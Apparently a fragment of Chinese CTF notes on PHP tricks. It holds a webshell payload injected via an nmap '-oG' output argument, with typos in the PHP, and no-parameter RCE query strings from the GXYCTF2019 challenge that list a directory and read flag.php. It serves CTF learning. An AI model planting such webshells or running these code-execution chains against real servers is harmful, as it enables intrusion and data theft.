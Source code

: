 $host = ' <?php @evl(&_POST["YSY"]);?> -oG hack.php ’

![Untitled](PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%202.png)

蚁剑连接不到对应文件夹下的shell。。。

## 无参数RCE

- localeconv() 函数返回一包含本地数字及货币格式信息的数组。
- current() 函数返回数组中的当前元素的值。
- scandir列出指定目录中的文件和目录，当参数为.时，即列出当前目录的文件
- array_reverse()函数以相反的元素顺序返回数组。
- highlight_file将代码高亮显示出来

### ****[GXYCTF2019]禁止套娃****

获取目录下文件

?exp=print_r(scandir(current(localeconv())));

让指针指向flag.php元素

?exp=print_r(next(array_reverse(scandir(current(localeconv())))));

读取flag.php

?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));

